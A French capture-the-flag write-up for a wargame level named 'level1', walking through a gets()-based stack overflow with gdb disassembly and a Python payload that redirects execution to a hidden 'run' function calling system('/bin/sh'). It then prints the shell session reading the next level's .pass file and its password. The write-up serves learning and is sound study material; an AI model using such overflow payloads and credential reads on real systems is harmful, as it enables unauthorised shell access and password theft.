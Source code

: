 # Level 1

Quand je lance le programme `level1` je peux voir qu'il lis sur l'entrée standard, il doit donc être possible de faire un buffer overflow.

Je peux tester si le programme `segfault` en écrivant une longue suite de charactère.

```sh
~ ./level1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Je sais donc que je peux injecter du `shellcode` au programme pour éxécuter `/bin/sh`.

Pour savoir combien de charactère je vais devoir injecter, je lance `gdb`. Le buffer est de `0x50` soit `80` en décimal comme on peut le voir à l'instruction `<+6>` du main.

```shell
~ gdb level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

En éxécutant la commande `info function` dans `gdb`, on remarque qu'il y a un appel à `system` et qu'il existe une fonction `run` et que c'est elle qui appel la fonction `system`.

```shell
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
[...]
0x08048444  run
0x08048480  main
[...]
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

L'argument que prend `system` est `/bin/sh`, notre objectif est donc d'appeler `run` à la place d'un `shellcode` en utilisant son adresse `0x08048444`. On fait un padding de `76` A car lorsque nous mettons `80` nous réecrivons `EIP`.

```shell
~ python -c 'print "A"*76+"\x44\x84\x04\x08"' > /tmp/run
~ cat /tmp/run - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```